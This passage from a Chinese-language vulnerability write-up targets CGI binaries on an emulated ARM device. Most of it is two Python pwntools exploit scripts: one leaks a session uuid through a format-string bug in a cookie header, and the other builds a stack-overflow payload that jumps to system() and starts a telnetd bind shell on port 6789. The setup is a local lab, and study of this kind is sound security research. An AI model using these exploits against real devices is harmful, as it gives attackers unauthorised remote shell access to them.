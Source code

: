 调试后可以看到没有问题

那么我们的第一段POC:

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *
import requests as rq

context.log_level="debug"

def leak_session(format):
	request_url = "http://127.0.0.1:80/55.cgi"

	headers_for_get_uuid = {
		"User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36",
		"Content-Type":"application/x-www-form-urlencoded",
  	# 这里需要调试出偏移来泄漏uuid或者直接把uuid改了
		"Cookies": "uuid="+format 
	}

	res = rq.post(request_url,headers = headers_for_get_uuid)
	log.info("res: "+res.text)
  
for i in range(2,6):
  leak_session("%"+str(i)+"$p")
```

接下来就可以来调试栈溢出了

这部分由于我们的payload是要入才行，因此我们需要像这么输入：

```
 echo "name=F0und" | qemu-arm -L /usr/arm-linux-gnueabi 63.cgi
```

我们简单写个脚本来生成调试用的payload

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
from pwn import *

commend = "& telnetd -l /bin/sh -p 6789 ;"

system = 0x000109DC

length_part1 = p8(0xff)
length_part2 = p8(0xff)
length_part3 = p8(0xff)
content_length_part1 = p8(0xff)
content_length_part2 = p8(0xff)
offset = 0x2fd - 77 - 5
payload ="*#$^"+length_part1+length_part2+length_part3+content_length_part1+content_length_part2+ 'A'* offset
payload += commend.ljust(0x2f4,"b")
payload += p32(system)

n = ord(length_part3) + 4 * (ord(length_part2) + 2 * ord(length_part1)) #3315
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

with open("shellcode","w") as f:
	f.write(payload)
f.close()

```